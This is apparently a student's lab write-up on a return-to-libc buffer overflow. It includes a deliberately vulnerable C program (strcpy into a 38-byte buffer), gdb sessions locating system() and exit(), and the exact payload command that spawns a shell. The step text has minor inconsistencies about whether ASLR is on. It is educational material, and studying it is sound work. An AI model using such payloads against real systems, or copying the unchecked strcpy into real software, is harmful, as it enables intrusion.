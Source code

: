 # Lab5_2 - Buffer overflow attack(turn on ASLR, turn on NX)

## Overview
* Previous lab, we use '/bin/sh' string in a environment in linux system. 
* This time, we're going to make '/bin/sh' string into a memory using strcpy and jump to the text!!!
* I think this is really cool and I truly admire who though these kind of things.

## PAYLOAD
+ Payload = PADDING + build-string-payload + &system() + &exit_path + &cmd_string
+ Note that, this time, we're building our own string!

## Before get started
+ Make sure that the ASLR is turned off.
```
[02/23/22]seed@VM:Byeongchan$ cat /proc/sys/kernel/randomize_va_space 
2
[02/23/22]seed@VM:Byeongchan$

```

## Steps
1. Find out how many bytes we need for the padding.
2. Find out the address of the system function
3. Find out the address of the exit function
4. Find out the address of the '/bin/bash' string in the env variables
5. Make the payload and execute

### Step1 - Find out how many bytes we need for the padding.
+ I found the 54 bytes are needed for the padding using exit function
+ If you're not sure what it does, look back previous practice
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```


### Step2 - Find out the address of the system function
+ Address of system() : 0xb7da4da0
+ I tried to find the system in the program, but it ended with ‘00’ so I tried to find another one using gdb.
```
[02/23/22]seed@VM:Byeongchan$ objdump -D ans_check7 | grep system
08048420 <system@plt>:
 8048639:	e8 e2 fd ff ff       	call   8048420 <system@plt>
[02/23/22]seed@VM:Byeongchan$
```
+ This time, I used gdb method.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3129) exited normally]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7da4da0 <__libc_system>
gdb-peda$
```

### Step3 - Find out the address of the exit function
+ Address of exit() : 0xb7d989d0
+ This time, I just using gdb method very first.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3147) exited normally]
Warning: not running or target is remote
gdb-peda$ p exit
$1 = {<text variable, no debug info>} 0xb7d989d0 <__GI_exit>
```

### Step4 - Find out the address of the '/bin/bash' string in the env variables
+ The address of cmd_string: 0xbffff0d3
+ Repeatable note is here
```
[02/23/22]seed@VM:Byeongchan$ gcc find_var.c -o find_var
[02/23/22]seed@VM:Byeongchan$ find_var SHELL
0xbffff0d3
[02/23/22]seed@VM:Byeongchan$ echo $SHELL
/bin/bash
[02/23/22]seed@VM:Byeongchan$
```

### Step5 - Make the payload and execute
+ The payload I made is shown below
+ &system:  0xb7da4da0 <__libc_system>
+ &exit_path: b7d989d0 <__GI_exit>
+ &cmd_string: 0xbffff0d3, cmd_string address
```
$(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
```
+ However, there is one problem executing the payload with the program
+ The payload I made above failed with ‘/bash’ not found error. And I knew the meaning of it, because find_var program returned the address of ‘SHELL’ text a little bit different. So, I needed to make adjustment a bit. 
+ First, I tried 3 less bytes and I also failed with ‘bin/bash’ not found. 
+ Second, I tried 4 less bytes and I got a new shell.
+ Below is my successful execution command.
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```
![lab5_1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/lab5_1.png)


## ans_check7.c
+ Compile this program with option like this : gcc -g -m32 -fno-stack-protector ans_check7.c -o ans_check7
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[38];

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }

  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
  system("/bin/date");
}
```

## find_var.c
+ This program shows the address of 'SHELL' env variable.
```
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[])
{
   if(!argv[1])
  	exit(1);
   printf("%p\n", getenv(argv[1]));
   return 0;
}
```
